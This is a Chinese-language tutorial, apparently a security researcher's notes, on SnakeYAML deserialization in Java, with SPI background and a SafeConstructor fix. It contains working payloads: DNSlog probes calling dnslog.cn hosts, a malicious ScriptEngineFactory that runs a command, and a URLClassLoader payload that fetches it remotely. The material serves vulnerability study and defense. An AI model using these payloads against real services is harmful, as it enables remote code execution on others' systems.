


# YAML简介

YAML是”YAML Ain’t a Markup Language”（YAML不是一种标记语言）的递归缩写，是一个可读性高、用来表达数据序列化的格式，类似于XML但比XML更简洁。

在Java中，有一个用于解析YAML格式的库，即SnakeYaml。

SnakeYaml是一个完整的YAML1.1规范Processor，支持UTF-8/UTF-16，支持Java对象的序列化/反序列化，支持所有YAML定义的类型。

# 漏洞探测

```java
String poc = "!!java.net.URL [null, \"[http://osrwbf.dnslog.cn]
(http://osrwbf.dnslog.cn/)\"]: 1";
```

会调用key.hashcode方法触发dnslog


## 探测gadget

[参考](./SnakeYAML实现Gadget探测.pdf)

```java
   String poc="key: [!!org.example.User {} : 0, !!java.net.URL [null, \"http://r0hy7l.dnslog.cn\"]: 1],";
```

其中所说的 {}相比 []可以获取私有构造方法并没有发现,在高版本中都可以获取私有构造方法

看看如何吧我们的payload解析为标签的


如果定义了标签


则自行构造,没有的话通过resolve识别

# Yaml反序列化

首先来了解一下Yaml规则:https://www.ruanyifeng.com/blog/2016/07/yaml.html

关键方法:

> - Yaml.load()：入参是一个字符串或者一个文件，经过反序列化之后返回一个Java对象；
> - Yaml.dump()：将一个对象转化为yaml文件形式；

创建一个User类:

```java
public class User {
    String name;
    int age;

    public User() {
        System.out.println("User构造函数");
    }
    public User(String a) {
        System.out.println("User构造函数");
        System.out.println(
                "获得的参数为"+a
        );
    }

    public String getName() {
        System.out.println("User.getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("User.setName");
        this.name = name;
    }

    public Integer getAge() {
        System.out.println("User.getAge");
        return age;
    }

    public void setAge(Integer age) {
        System.out.println("User.setAge");
        this.age = age;
    }
}
```

然后创建一个Test类:

```java
import org.yaml.snakeyaml.Yaml;

public class Test {
    public static void main(String[] args){
        //String s = "!!User [[!!java.lang.String [\"123a\"]]]";
        User xiaoming=new User("123");
        xiaoming.setName("xiaoming");
        xiaoming.setAge(18);
        Yaml yaml = new Yaml();
        String s=yaml.dump(xiaoming);
        System.out.println(s);
        User user = yaml.load(s);
    }
}
```

控制台返回


这里和fastjson还有jackson反序列化一样,会调用成员的set方法，同样的也通过JdbcRowSetImpl类进行JNDI注入

## 流程分析


在load()函数中会先生成一个StreamReader，将yaml数据通过构造函数赋给StreamReader，再调用loadFromReader()函数


这里调用了getSingleData方法,并且传入了type=Object


进行了一系列判断,比如node是否为空,node的标签是否为null,因为我们这里type=object,我们也没有根标签,if语句直接过了,调用this.constructDocument(node)


接着进行一系列的调用,来到了Constructor#getClassForNode方法

getClassName方法会判断我们的标签是否以`tag:yaml.org,2002:`开头,如果是则会进行UTF-8编码并返回。

然后传入getClassForName()，调用forName方法获取我们的User类


然后往下调


这里实例化了我们的User类,并且调用了constructJavaBean2ndStep方法,,接着调用对应的set方法


这里会获取到对应的set方法,然后进行invoke


# SPI介绍

SPI（Service Provider Interface），是JDK内置的一种 服务提供发现机制，可以用来启用框架扩展和替换组件，主要是被框架的开发人员使用，比如java.sql.Driver接口，其他不同厂商可以针对同一接口做出不同的实现，MySQL和PostgreSQL都有不同的实现提供给用户，而Java的SPI机制可以为某个接口寻找服务实现。

当服务的提供者提供了一种接口的实现之后，需要在classpath下的`META-INF/services/`目录里创建一个以服务接口命名的文件，这个文件里的内容就是这个接口的具体的实现类。当其他的程序需要这个服务的时候，就可以通过查找这个jar包（一般都是以jar包做依赖）的`META-INF/services/`中的配置文件，配置文件中有接口的具体实现类名，可以根据这个类名进行加载实例化，就可以使用该服务了。JDK中查找服务的实现的工具类是：`java.util.ServiceLoader`。

# SPI实例演示

创建四个java文件

```java
//Search接口
import java.util.List;

public interface Search {
    public List<String> searchDoc(String keyword);
}
//接口实现类1
import java.util.List;

public class DatabaseSearch implements Search{
    @Override
    public List<String> searchDoc(String keyword) {
        System.out.println("数据搜索 "+keyword);
        return null;
    }
}

import java.util.List;
//接口实现类2
public class FileSearch implements Search{
    @Override
    public List<String> searchDoc(String keyword) {
        System.out.println("文件搜索 "+keyword);
        return null;
    }
}
//利用ServiceLoader方法加载接口实现类
import java.util.Iterator;
import java.util.ServiceLoader;

public class TestCase {
    public static void main(String[] args) {
        ServiceLoader<Search> s = ServiceLoader.load(Search.class);
        Iterator<Search> iterator = s.iterator();
        while (iterator.hasNext()) {
           Search search =  iterator.next();
           search.searchDoc("hello world");
        }
    }
}
```

然后创建我们的META-INF/services文件夹,接着创一个文件,文件的名称为我们的接口路径,

内容为接口实现类的路径

此时的文件结构:

```
│  DatabaseSearch.class
│  FileSearch.class
│  Search.class
│  TestCase.class
│
└─META-INF
    └─services
            Search
```

Search内容:

```
FileSearch
DatabaseSearch
```

运行TestCase:


## 调试分析


在调用ServiceLoader.load方法时会触发reload()方法,它会new一个LazyIterator,并传入我们的实现接口以及classloader


当开始遍历对象时

这里有一个关键的方法


在hashNextService方法中会解析`config`文件，获取要解析的接口实现类

然后通过forName进行类的初始化


# SnakelYaml反序列化

SnakelYaml反序列化跟我们的SPI执行流程有关

## 漏洞复现

创建一个恶意文件

```java
import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class SEM implements ScriptEngineFactory {
    static {
        try {
            System.out.println("hacker!!");
            Runtime.getRuntime().exec("calc");
        } catch (IOException e){
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

反序列化

```java
import org.yaml.snakeyaml.Yaml;

public class SEM_cmd {
    public static void main(String[] args){
        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1/:8080\"]]]]";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}

```

恶意服务器

> │  SEM.class
> │
> ├─META-INF
> │  └─services
> │          javax.script.ScriptEngineFactory

这里也可以打包成jar文件,运行SEM_cmd


## 漏洞分析

Yaml反序列化是可以调用类的构造方法的



当我们传入我们的payload后,会从最后边开始解析。

> 首先调用 `java.net.URL`的 **public URL(String spec)**构造器初始化对象, 然后将该URL对象传入 `java.net.URLClassLoader`的 **public URLClassLoader(URL[] urls)**构造器中, 因为该构造器形参是URL对象数组所以Payload中用了两个方括号。最后即是调用 `javax.script.ScriptEngineManager`的**public ScriptEngineManager(URLClassloader loader)**构造器。


首先会获取类


然后获取构造器


然后进行实例化


往下跟


这里调用了ServiceLoader.load()

## 漏洞修复

- 禁止`Yaml.load`参数可控
- 若需要反序列化，则要过滤参数内容，使用`SafeConstructor`对反序列化内容进行白名单控制

## 安全编码

```
import org.yaml.snakeyaml.constructor.SafeConstructor;

public static Map readConfigFile(String filename) throws IOException {
    Map ret;
    Yaml yaml = new Yaml(new SafeConstructor());  // SafeConstructor是自带的白名单类
    InputStream inputStream = new FileInputStream(new File(filename));

    try {
        ret = (Map)yaml.load(inputStream);
    } finally {
        inputStream.close();
    }

    if(ret == null) {
        ret = new HashMap();
    }

    return new HashMap(ret);
}
```

# 参考链接

https://www.mi1k7ea.com/2019/11/29/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#0x01-%E5%9F%BA%E6%9C%AC%E6%A6%82%E5%BF%B5

https://drops.blbana.cc/2020/03/24/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96

https://paper.seebug.org/1657/

https://www.ruanyifeng.com/blog/2016/07/yaml.html